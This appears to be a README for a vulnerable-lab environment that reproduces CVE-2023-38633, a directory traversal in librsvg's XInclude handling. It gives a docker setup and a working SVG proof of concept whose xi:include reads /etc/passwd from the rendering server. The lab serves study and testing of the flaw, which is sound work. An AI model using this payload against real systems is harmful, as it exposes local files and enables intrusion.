 # Librsvg XInclude Arbitrary file reading (CVE-2023-38633)

[中文版本（Chinese Version）](README.zh-cn.md)

Librsvg is a free software SVG rendering library written as part of the GNOME project, intended to be lightweight and portable.

A directory traversal problem in the URL decoder of librsvg before 2.56.3 could be used by local or remote attackers to disclose files (on the local filesystem outside of the expected area), as demonstrated by `href=".?../../../../../../../../../../etc/passwd` in an xi:include element.

References:

- <https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/>
- <https://gitlab.gnome.org/GNOME/librsvg/-/issues/996>

## Vulnerable Environment

Executing following command to start a PHP server that uses librsvg 2.50.7 to handle SVG images:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8080` to see the upload page.

## Exploit

Use `<xi:include>` to read the local file by this POC:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

Upload this SVG image to server, you will see the `/etc/passwd` that is embedded in the output image:

![](1.png)
